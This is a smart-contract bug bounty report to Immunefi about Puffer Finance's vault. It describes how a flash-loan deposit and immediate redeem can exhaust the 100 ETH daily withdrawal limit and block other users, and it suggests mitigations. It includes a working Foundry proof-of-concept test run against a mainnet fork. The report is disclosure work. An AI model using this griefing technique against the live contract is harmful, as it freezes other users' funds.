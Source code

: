 
# Blocking redeem/withdraw from vault

Submitted on Thu Feb 22 2024 22:20:29 GMT-0400 (Atlantic Standard Time) by @DuckAstronomer for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28656

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:
- Temporary freezing of funds for at least 1 hour

## Description
## Vulnerability Details
The attacker can deplete daily withdrawal limit by taking flash loan, making a deposit and an immediate withdrawal. There is no risks or fees involved for the attacker. This behavior prevents benign users from redeeming/withdrawing from the vault.

By default there is a `100 ETH` daily limit for withdrawal.

```solidity
function initialize() public reinitializer(2) {
    // In this initialization, we swap out the underlying stETH with WETH
    ERC4626Storage storage erc4626Storage = _getERC4626StorageInternal();
    erc4626Storage._asset = _WETH;

    _setDailyWithdrawalLimit(100 ether);  // @audit
    _updateDailyWithdrawals(0);
}
```

To mitigate the issue:
 - Replenish the daily limit whenever a mint/deposit occur.
 - Prohibit flash deposit-redeem actions taking place in one tx.

        
## Proof of concept
## Proof of Concept
To run the PoC place the file inside `test/Integration/Immunefi.fork.t.sol` and run the following command.

```
ETH_RPC_URL=URL forge test --mp test/Integration/Immunefi.fork.t.sol --mt test_griefing  --fork-url URL --fork-block-number 19285430
```

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.0 <0.9.0;

import { TestHelper } from "../TestHelper.sol";

import "forge-std/console.sol";

contract Immunefi is TestHelper {

    error ERC4626ExceededMaxRedeem(address owner, uint256 shares, uint256 max);

    // ETH_RPC_URL=URL forge test --mp test/Integration/Immunefi.fork.t.sol --mt test_griefing  --fork-url URL --fork-block-number 19285430
    function test_griefing() public {
        address attacker = address(101);
        address user = address(102);

        vm.deal(user, 10 ether);

        // 1. User deposits ETH.
        vm.startPrank(user);
        uint256 shares = pufferVault.depositETH{value: 10 ether}(user);
        vm.stopPrank();

        // 2. Attacker takes flash loan, deposits and then redeems.
        //    No loses/risks/fees for the attacker.
        //    Attacker depletes daily withdraw limit, which is 100 ETH by default.
        vm.deal(attacker, 100 ether);
        vm.startPrank(attacker);
        uint256 shares_attacker = pufferVault.depositETH{value: 100 ether}(attacker);
        pufferVault.redeem(shares_attacker, attacker, attacker);
        vm.stopPrank();

        // 3. No one can redeem/withdraw.
        vm.startPrank(user);
        vm.expectRevert(
            abi.encodeWithSelector(ERC4626ExceededMaxRedeem.selector, user, shares, pufferVault.maxRedeem(user))
        );
        pufferVault.redeem(shares, user, user);
        vm.stopPrank();
    }
}
```